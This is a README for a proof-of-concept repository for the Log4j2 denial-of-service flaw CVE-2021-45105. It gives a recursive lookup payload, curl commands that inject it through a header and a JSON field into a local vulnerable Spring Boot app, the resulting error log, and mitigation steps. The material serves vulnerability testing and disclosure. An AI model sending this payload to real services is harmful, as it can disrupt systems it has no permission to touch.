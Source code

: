 # Log4j2 DOS (CVE-2021-45105) 

## Poc

```
${${::-${::-$${::-$}}}}
```

## Versions Affected: all versions from 2.0-beta9 to 2.16.0

This application is based on Spring Boot web application vulnerable to CVE-2021-45105

It uses Log4j 2.16.0

![](./screenshot.png)

## Running the application

Run it:

```
Import the project in Java IDE as a maven project

Run CVEMainApplication.java as a spring boot app.

```

## Exploitation steps

* Then, trigger the exploit using:

```bash
For GET ->
curl 127.0.0.1:8080 -H 'X-Api-Version: ${${::-${::-$${::-$}}}}'


For Post request ->
curl --location --request POST 'http://127.0.0.1:8080/addrecord' \
--header 'Content-Type: application/json' \
--data '{
	"clientRef": "${${::-${::-$${::-$}}}}"
}'
```


* Notice the output showing Infinite loop, however in testing did not find out that this DOS to be resource consuming as this infinite loop identified by program and error out:

```

 ${ctx:apiVersion} ${ctx:clientRef}2021-12-18 14:29:56,759 http-nio-8080-exec-1 ERROR An exception occurred processing Appender Console java.lang.IllegalStateException: Infinite loop in property interpolation of ::-${::-$${::-j}}: :
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.checkCyclicSubstitution(StrSubstitutor.java:1081)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1029)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1042)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
	
```

## Mitigation : 

Java 8 (or later) users should upgrade to release 2.17.0.

Alternatively, this can be mitigated in configuration:

In PatternLayout in the logging configuration, replace Context Lookups like ${ctx:loginId} or $${ctx:loginId} with Thread Context Map patterns (%X, %mdc, or %MDC).
Otherwise, in the configuration, remove references to Context Lookups like ${ctx:loginId} or $${ctx:loginId} where they originate from sources external to the application such as HTTP headers or user input.

## Reference

https://issues.apache.org/jira/browse/LOG4J2-3230
